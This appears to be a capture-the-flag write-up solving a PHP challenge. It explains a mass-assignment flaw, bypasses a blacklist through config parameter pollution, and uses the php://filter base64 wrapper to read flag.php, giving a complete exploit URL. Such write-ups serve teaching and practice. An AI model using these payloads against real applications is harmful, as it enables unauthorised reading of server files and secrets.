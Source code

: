# Solution

There's mass assignment vulnerability that _allow we override internal configuration defined in the `Config` class_.

Exploit `allow_unsafe` to true.

```php
$loader->assign_props($_GET)
```

Bypass blacklist with config varibles pollution

```bash
  &config[path]=../flag.php
```

Once the blacklist is disabled, we can load PHP stream wrappers, especially:

```php
  php://filter/convert.base64-encode/resource=xxx
```

which has more detail from official website: https://www.php.net/manual/zh/filters.php

So we can use following payload for exploit:

```bash
  http://localhost/index.php/?allow_unsafe=1&config[data_folder]=php://filter/convert.base64-encode/resource=&config[path]=flag.php
```

this payload eventually will be translated to following:

```php
  file_get_contents('php:/filter/convert.base64-encode/resource=flag.php')
```
